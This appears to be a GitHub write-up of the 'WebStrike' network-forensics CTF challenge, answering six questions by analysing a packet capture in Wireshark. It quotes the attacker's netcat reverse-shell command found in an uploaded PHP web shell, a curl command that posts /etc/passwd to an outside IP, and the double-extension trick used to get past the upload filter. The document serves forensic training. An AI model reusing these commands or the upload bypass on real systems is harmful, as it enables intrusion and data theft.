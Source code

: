 # ctf2   challenge name WebStrike 
<br> before starting with challenge we have to do something 
<br>**first** one open statistics then protocol hierarchy to see which protocols used in the packets
<br>we will see tcp - http 
![2](https://github.com/0xT7N/ctf2/assets/75274517/4a2de490-dff2-4d6e-ba6d-1849c8210d1a)
<br>**second** open statistics then conversation to see which ips connect with each other
![3](https://github.com/0xT7N/ctf2/assets/75274517/4d23699c-0ec3-43cc-a2f6-bea59c375d40)
<br> **third** open file export-objeccts-http with it we will see which file transfer through http protocol
![5](https://github.com/0xT7N/ctf2/assets/75274517/5e261d6a-21be-4495-a5c5-dac58be0e35a)
<br> we now ready for the challenge 
# Q1 Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?
<br> using ipgeoloction 
<br> ans **Tianjin**
![4](https://github.com/0xT7N/ctf2/assets/75274517/02cdf53c-73c5-4d43-948f-1f9bee77f752)
# Q2 Knowing the attacker's user-agent assists in creating robust filtering rules. What's the attacker's user agent?
<br> using follow tcp stream we will get user agent for attacker
<br> **Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0**
![6](https://github.com/0xT7N/ctf2/assets/75274517/90433587-96ed-49be-ab06-7c4c6664a480)
# Q3 We need to identify if there were potential vulnerabilities exploited. What's the name of the malicious web shell uploaded?
<br> first we will follow the http request ant we find a post request in packet number **53** and **63**
<br> in this challenge the attacker uploaded two web shell first one called **image.php** and the second called **image.jpg.php**
<br> and in packet **53** **image.php** web shell he get invalid formate so its not worked (in this cause we can be guess the web site in this location of upload it only accepte a photos with ext jpg png or something like that so the attacker change the extention with image.jpg.php then its accept in packet **63**
<br> we will notice this command in php file **nc 117.11.88.124 8080** that mean the attacke will open a connection in port **8080** using **netcat** tool (netcat tool the connection not encrypted like socat)
![14](https://github.com/0xT7N/ctf2/assets/75274517/96d35c93-7dbf-48e3-90ed-6063b6cb9d96)
![13](https://github.com/0xT7N/ctf2/assets/75274517/32b094d6-fa99-4527-8926-e831925170ea)
# Q4 Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store the uploaded files?
<br> with following http stream we will see in packet 138 we will the web shell in path **/reviews/uploads/image.jpg.php**
<br> after the attacker access this path he gain access to the machine and can write a commands on a machine victim 
![15](https://github.com/0xT7N/ctf2/assets/75274517/3e668018-fad3-4044-a099-da53c360a1ac)
 # Q5 Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?
 <br> to know which port the attacker used for web shell we can detect it form the command wrote in php file **nc 117.11.88.124 8080** so the port is **8080**
 # Q6 Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?
 <br> to know which file was the attacker trying to exfiltrate we have to go to packet **140** that includs all commands the attacker wrote in a victime machine  
 <br> we will see this command **curl -X POST -d /etc/passwd http://117.11.88.124:443/** **curl is used in command lines or scripts to transfer data**
 <br> then the file is **passwd** It contains a list of the system's accounts 
 ![11](https://github.com/0xT7N/ctf2/assets/75274517/161bf12d-dbd6-4e50-a8ca-ba1711c17c62)


